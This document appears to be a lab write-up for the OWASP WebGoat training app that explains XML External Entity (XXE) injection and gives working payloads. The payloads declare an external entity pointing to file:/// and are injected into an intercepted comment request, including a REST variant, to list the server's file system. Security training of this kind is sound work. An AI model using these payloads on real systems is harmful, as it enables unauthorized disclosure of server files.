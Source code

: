 # XXE
XXE = XML External Entity Attack

## What is an XXE injection?
- attack against an application that parses XML input
- occurs when XML input containing a reference to an external entity is  processed by a weakly configured XML parser.
- may lead to the disclosure of confidential data, DoS, server side request forgery, etc.
- Distinctions in different XXE attacks:
  - Classic: an external entity is included in a local DTD
  - Blind: no output and or errors are shown in the response
  - Error: try to get the content of a resource in the error message

## XML Entity
- XML Entity allows tags to be defined that will be replaced by content when the XML Document is parsed.
- Three types of entities:
  - Internal entities
  - External entities
  - Parameter entities
- An entity must be created in the Document Type Definition (DTD)

Example:
```
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```

## List the Directory of the File System
Intercept comment submission with ZAP

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/10%20zap%20xxe%20request.PNG?token=ANjmpuYrSVcKPRGvRDvdV0UcGgpoCKuLks5bugWWwA%3D%3D)

Change comment section to:
```
<!DOCTYPE comment [
<!ELEMENT text (#PCDATA)>
<!ENTITY xxe SYSTEM "file:///">
]>
<comment> <text>&xxe;</text></comment>
```

Results:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/11%20xxe%20files%20listed.PNG?token=ANjmpqFNvEDNxD_wEebCUjI8_uFITl8wks5bugvNwA%3D%3D)

## Modern REST Framework
Intercept comment submission with ZAP again

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/12%20xxe%20modern%20rest%20framework%20request.PNG?token=ANjmpibR-jC7UDO1c_elxkWTLYj0vjriks5bug5JwA%3D%3D)

Edit request:

![alt-text](https://raw.githubusercontent.com/brendaang/OWASP-WebGoat-Exercises/master/Images/13%20modified%20request.PNG?token=ANjmppgBbtaqOBxHeZ4aL2A1AAIGUWmZks5bug6GwA%3D%3D)

Change Content-Type to:
```
Content-Type: application/xml
```

Change comment section to:
```
<!DOCTYPE comment [
<!ELEMENT text (#PCDATA)>
<!ENTITY xxe SYSTEM "file:///">
]>
<comment> <text>&xxe;</text></comment>
```
## Blind XXE
Placeholder
